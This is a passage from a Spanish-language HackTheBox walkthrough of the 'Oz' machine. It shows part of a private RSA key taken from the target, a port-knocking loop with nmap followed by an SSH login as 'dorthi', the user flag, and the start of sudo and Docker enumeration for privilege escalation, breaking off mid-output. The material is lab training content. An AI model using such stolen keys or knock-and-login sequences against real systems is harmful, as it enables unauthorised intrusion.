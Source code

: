 ```bash
a//JhOG+GdqvEhJp15pQuj/3SC9O5xyLe2mqL1TUK3WrFpQyv8lXartH1vKTnybd
9+Wme/gVTfwSZWgMeGQjRXWe3KUsgGZNFK75wYtA/F/DB7QZFwfO2Lb0mL7Xyzx6
ZakulY4bFpBtXsuBJYPNy7wB5ZveRSB2f8dznu2mvarByMoCN/XgVVZujugNbEcj
evroLGNe/+ISkJWV443KyTcJ2iIRAa+BzHhrBx31kG//nix0vXoHzB8Vj3fqh+2M
EycVvDxLK8CIMzHc3cRVUMBeQ2X4GuLPGRKlUeSrmYz/sH75AR3zh6Zvlva15Yav
5vR48cdShFS3FC6aH6SQWVe9K3oHzYhwlfT+wVPfaeZrSlCH0hG1z9C1B9BxMLQr
DHejp9bbLppJ39pe1U+DBjzDo4s6rk+Ci/5dpieoeXrmGTqElDQi+KEU9g8CJpto
bYAGUxPFIpPrN2+1RBbxY6YVaop5eyqtnF4ZGpJCoCW2r8BRsCvuILvrO1O0gXF+
wtsktmylmHvHApoXrW/GThjdVkdD9U/6Rmvv3s/OhtlAp3Wqw6RI+KfCPGiCzh1V
0yfXH70CfLO2NcWtO/JUJvYH3M+rvDDHZSLqgW841ykzdrQXnR7s9Nj2EmoW72IH
znNPmB1LQtD45NH6OIG8+QWNAdQHcgZepwPz4/9pe2tEqu7Mg/cLUBsTYb4a6mft
icOX9OAOrcZ8RGcIdVWtzU4q2YKZex4lyzeC/k4TAbofZ0E4kUsaIbFV/7OMedMC
zCTJ6rlAl2d8e8dsSfF96QWevnD50yx+wbJ/izZonHmU/2ac4c8LPYq6Q9KLmlnu
vI9bLfOJh8DLFuqCVI8GzROjIdxdlzk9yp4LxcAnm1Ox9MEIqmOVwAd3bEmYckKw
w/EmArNIrnr54Q7a1PMdCsZcejCjnvmQFZ3ko5CoFCC+kUe1j92i081kOAhmXqV3
c6xgh8Vg2qOyzoZm5wRZZF2nTXnnCQ3OYR3NMsUBTVG2tlgfp1NgdwIyxTWn09V0
nOzqNtJ7OBt0/RewTsFgoNVrCQbQ8VvZFckvG8sV3U9bh9Zl28/2I3B472iQRo+5
uoRHpAgfOSOERtxuMpkrkU3IzSPsVS9c3LgKhiTS5wTbTw7O/vxxNOoLpoxO2Wzb
/4XnEBh6VgLrjThQcGKigkWJaKyBHOhEtuZqDv2MFSE6zdX/N+L/FRIv1oVR9VYv
QGpqEaGSUG+/TSdcANQdD3mv6EGYI+o4rZKEHJKUlCI+I48jHbvQCLWaR/bkjZJu
XtSuV0TJXto6abznSC1BFlACIqBmHdeaIXWqH+NlXOCGE8jQGM8s/fd/j5g1Adw3
-----END RSA PRIVATE KEY-----
```
Ahora que tenemos la `id_rsa` del usuario `dorthi` procedemos con el concepto del `Port Knocking`
Acordarse siempre tenemos que darle `permisos 600`  al `id_rsa`:
`chmod 600 id_rsa`
```bash
┌──(root💀kali)-[/home/…/Escritorio/HTB/Oz/nmap]
└─# for port in 40809 50212 46969; do nmap -sU -Pn --max-retries 0 -p$port 10.10.10.96; done &> /dev/null; ssh -i id_rsa dorthi@10.10.10.96                                     
Enter passphrase for key 'id_rsa': [Introducimos la credencial anteriormente encontrada]

dorthi@Oz:~$ ls
user.txt
dorthi@Oz:~$ cat user.txt 
c21cff3b0c26115143e6cea988dxxxxxx
dorthi@Oz:~$ 
```
Conseguimos el `user.txt` vamos a por el `root.txt`

# Escalada de Privilegios 

Procedemos a hacer una enumeracion del sistema como siempre:
```bash
dorthi@Oz:/admin$ sudo -l
Matching Defaults entries for dorthi on Oz:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dorthi may run the following commands on Oz:
   " (ALL) NOPASSWD: /usr/bin/docker network inspect *"
   " (ALL) NOPASSWD: /usr/bin/docker network ls"



dorthi@Oz:/admin$ sudo docker network inspect bridge
[
    {
        "Name": "bridge",
        "Id": "a6b4f157c9e52f695bffde0984a763b23f382dc0dd4318683c4f920ac374d9ab",
        "Created": "2021-06-20T04:52:02.80355347-05:00",
        "Scope": "local",
        "Driver": "bridge",
```